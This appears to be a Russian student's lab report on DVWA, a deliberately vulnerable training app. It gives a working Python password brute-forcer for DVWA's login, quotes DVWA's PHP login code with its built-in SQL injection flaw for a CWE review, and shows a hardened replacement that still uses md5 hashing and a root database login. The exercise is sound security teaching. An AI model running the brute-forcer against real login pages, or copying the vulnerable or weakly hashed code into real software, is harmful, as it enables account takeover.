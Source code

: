 # pr3
## Установка
Архив DVWA был скачан с официального ресурса github, затем установлен с использованием дистрибутива OSPanel.
![image](https://github.com/user-attachments/assets/ba34beeb-ad1e-4daf-986c-7c5c8635b7bf)
Адрес: http://dvwa.local/login.php
![image](https://github.com/user-attachments/assets/4e7ff5dd-26b2-4344-8767-ff9e571b4cad)
## Задания
1.Необходимо разработать переборщик паролей для формы в задании Bruteforce на сайте dvwa.local.
Было решено помочь программе установкой префикса "passwo" для того, чтобы уменьшить время подбоа пароля.
```python
import itertools
import requests
import time

# Настройки
URL = "http://dvwa.local/vulnerabilities/brute/"
USERNAME = "admin"
CHARSET = 'abcdefghijklmnopqrstuvwxyz'
PASSWORD_LENGTH = 8
PREFIX = "passwo"
SESSION = requests.Session()

# Устанавливаем cookie для авторизации
SESSION.cookies.set("PHPSESSID", "mgg4vgt0fcdtg672ead6ujaa02a5eu1h")
SESSION.cookies.set("security", "low")


def generate_passwords(prefix, length, charset):
    remaining_length = length - len(prefix)
    return (
        prefix + ''.join(comb)
        for comb in itertools.product(charset, repeat=remaining_length)
    )


def is_password_correct(url, username, password):
    params = {'username': username, 'password': password, 'Login': 'Login'}
    try:
        response = SESSION.get(url, params=params)
        return "Welcome to the password protected area" in response.text
    except requests.exceptions.RequestException as e:
        print(f"[-] Ошибка при запросе: {e}")
        return False


def main():
    start_time = time.time()
    print("[*] Начинаем подбор пароля...")

    for password in generate_passwords(PREFIX, PASSWORD_LENGTH, CHARSET):
        print(f"[*] Пробуем пароль: {password}")
        if is_password_correct(URL, USERNAME, password):
            print(f"[+] Пароль найден: {password}")
            break
    else:
        print("[-] Пароль не найден.")

    end_time = time.time()
    print(f"[+] Время выполнения: {end_time - start_time:.2f} секунд")


if __name__ == "__main__":
    main()
```
Результат работы программы:
![Uploading image.png…]()
2. Проанализировать код и сделать кодревью, указав слабые места. Слабость уязвимого кода необходимо указать с использованием метрики CWE (база данных [cwe.mitre.org](http://cwe.mitre.org))

``` PHP
<?php

if( isset( $_GET[ 'Login' ] ) ) {
	// Get username
	$user = $_GET[ 'username' ];
	// Get password
	$pass = $_GET[ 'password' ];
	$pass = md5( $pass );
	// Check the database
	$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
	if( $result && mysqli_num_rows( $result ) == 1 ) {
		// Get users details
		$row    = mysqli_fetch_assoc( $result );
		$avatar = $row["avatar"];
		// Login successful
		$html .= "<p>Welcome to the password protected area {$user}</p>";
		$html .= "<img src=\"{$avatar}\" />";
	}
	else {
		// Login failed
		$html .= "<pre><br />Username and/or password incorrect.</pre>";
	}
	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}
?>
```
1)SQL Injection (CWE-89): В коде выполняется прямое использование переменных из входных данных ($_GET['username'] и $_GET['password']) в SQL-запросе без какой-либо защиты. Это означает, что злоумышленник может вставить вредоносный SQL-код через параметры запроса и изменить запрос так, чтобы он всегда возвращал истинный результат (например, взломав пароли или получив доступ к базе данных).

2)Код не имеет защиты от атак перебора паролей, таких как блокировка аккаунта или использование капчи после нескольких неудачных попыток входа. Это позволяет злоумышленнику бесконечно пытаться угадать пароль, например, с использованием перебора.

3)Отсутствие защиты от CSRF атак (CWE-352):Код не включает защиту от атак подделки межсайтовых запросов (CSRF). Это значит, что злоумышленник может создать фальшивую форму на другом сайте, которая будет отправлять запросы на авторизацию от имени жертвы, если она уже авторизована на данном сайте.
3.Разработать свою систему авторизации на любом языке, исключающий взможность подбора паролей разработнным переборщиком паролей в задании 1. Возможно исправление авторизации из dvwa.local *Требования к системе авторизации*

- Система авторизации должна использовать запросы GET с параметрами, аналогичными из задания bruteforce dvwa


vhod.php
  ``` PHP
  <?php

session_start();

if (!isset($_SESSION['failed_attempts'])) {
    $_SESSION['failed_attempts'] = 0;
}

if (!isset($_SESSION['last_attempt_time'])) {
    $_SESSION['last_attempt_time'] = 0;
}

$max_attempts = 5;
$block_duration = 300; // 5 минут

if ($_SESSION['failed_attempts'] >= $max_attempts && (time() - $_SESSION['last_attempt_time']) < $block_duration) {
    $remaining_time = $block_duration - (time() - $_SESSION['last_attempt_time']);
    die("Too many failed login attempts. Please try again after " . ceil($remaining_time / 60) . " minutes.");
}

$message = "";
if (isset($_GET['Login'])) {
    if (isset($_GET['username']) && isset($_GET['password']) && isset($_GET['user_token'])) {
        // Генерация токена для предотвращения CSRF-атак
        if (!isset($_SESSION['user_token']) || empty($_SESSION['user_token'])) {
            $_SESSION['user_token'] = bin2hex(random_bytes(32));
        }

        $user = filter_input(INPUT_GET, 'username', FILTER_SANITIZE_STRING);
        $pass = filter_input(INPUT_GET, 'password', FILTER_SANITIZE_STRING);
        $user_token = filter_input(INPUT_GET, 'user_token', FILTER_SANITIZE_STRING);

        if ($user_token !== $_SESSION['user_token']) {
            $message = "Invalid token. Please refresh the page and try again.";
        } else {

            $mysqli = new mysqli("localhost", "root", "", "dvwa");

            if ($mysqli->connect_error) {
                die("Database connection failed: " . $mysqli->connect_error);
            }

            // Использование подготовленных выражений для защиты от SQL-инъекций
            $stmt = $mysqli->prepare("SELECT * FROM `users` WHERE user = ? AND password = ?");
            $hashed_password = md5($pass);
            $stmt->bind_param("ss", $user, $hashed_password);
            $stmt->execute();
            $result = $stmt->get_result();

            if ($result && $result->num_rows === 1) {
                $row = $result->fetch_assoc();
                $avatar = htmlspecialchars($row["avatar"], ENT_QUOTES, 'UTF-8');
                echo "<p>Welcome to the password protected area " . htmlspecialchars($user, ENT_QUOTES, 'UTF-8') . "</p>";
                echo "<img src=\"" . $avatar . "\" />";

                $_SESSION['failed_attempts'] = 0;
                exit;
            } else {
                $_SESSION['failed_attempts']++;
                $_SESSION['last_attempt_time'] = time();
                $message = "Username and/or password incorrect.";
            }

            $stmt->close();
            $mysqli->close();
        }
    } else {
        $message = "Please fill in all fields.";
    }
}

if (!isset($_SESSION['user_token']) || empty($_SESSION['user_token'])) {
    $_SESSION['user_token'] = bin2hex(random_bytes(32));
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login</title>
</head>
<body>
    <form method="get">
        <input type="hidden" name="user_token" value="<?php echo $_SESSION['user_token']; ?>">
        <label for="username">Username:</label>
        <input type="text" id="username" name="username" required>
        <br>
        <label for="password">Password:</label>
        <input type="password" id="password" name="password" required>
        <br>
        <button type="submit" name="Login">Login</button>
    </form>

    <?php if (!empty($message)): ?>
        <p style="color: red;"><?php echo htmlspecialchars($message, ENT_QUOTES, 'UTF-8'); ?></p>
    <?php endif; ?>
</body>
</html>
```

